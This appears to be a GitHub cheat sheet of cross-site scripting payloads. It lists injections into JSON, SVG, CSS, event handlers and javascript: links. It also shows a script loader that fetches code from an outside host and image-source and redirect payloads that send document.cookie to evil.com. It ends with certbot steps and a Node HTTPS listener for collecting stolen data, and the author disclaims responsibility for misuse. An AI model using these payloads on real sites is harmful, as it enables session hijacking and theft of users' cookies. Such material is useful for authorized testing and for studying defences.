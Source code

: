 ### Payloads

1. **Inject in JSON object**

```js
"};alert(1);// 
```

1. **Inject External JavaScript without `<script>` Tag:**
   
```html
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://basedygt.github.io/xss.js'; document.head.appendChild(script);">
```

2. **Data Exfiltration through Image Source (when CSP is disabled):**

```html
<img src="https://evil.com/?data=" + encodeURIComponent(document.cookie)">
```

Vulnerable when

- Absence of Content-Security-Policy header in the response
- Presence of Content-Security-Policy header with a value of `default-src` or `none`

3. **CSS-Based XSS:**

```css
body { background-image: url('javascript:alert("XSS")'); }
```

4. **SVG XSS:**

```html
<svg/onload=alert(document.domain)>
```

5. **Event Handlers to Execute Payload:**

```html
<button onclick="alert('XSS')">Click Me</button>
```

6. **JavaScript Protocol Handler:**
   
```html
<a href="javascript:alert('XSS')">Click Me</a>
```

### Cookie Stealer Example:

- `GET` based interception (easiest and best to show Poc):

```js
// XSS cookie stealer POC
var cookie = encodeURIComponent(document.cookie);
var url = 'https://evil.com/index.html/?victim_cookie=' + cookie;
window.location.href = url;
```

- `POST` based interception (I am not responsible for what you do with this info):

1. Get ssl certitficates for your malicious domain: `sudo certbot certonly --standalone -d domain.tld`
2. Setup the listener with ssl certificates

```node
const https = require('https');
const fs = require('fs');

// Load the certificate and key
const cert = fs.readFileSync('cert.pem');
const key = fs.readFileSync('privkey.pem');

// Create the HTTPS server
const server = https.createServer({ cert, key }, (req, res) => {
  if (req.method === 'POST') {
    let data = '';
    req.on('data', (chunk) => {
      data += chunk;
    });
    req.on('end', () => {
      console.log(`Received data: ${data}`);
      res.writeHead(200, { 'Content-Type': 'text/plain' });
      res.end('Data received successfully!');
    });
  } else {
    res.writeHead(405, { 'Content-Type': 'text/plain' });
    res.end('Method not allowed!');
  }
});

// Listen on port 8080
server.listen(8080, () => {
  console.log('Server listening on port 8080');
});
```
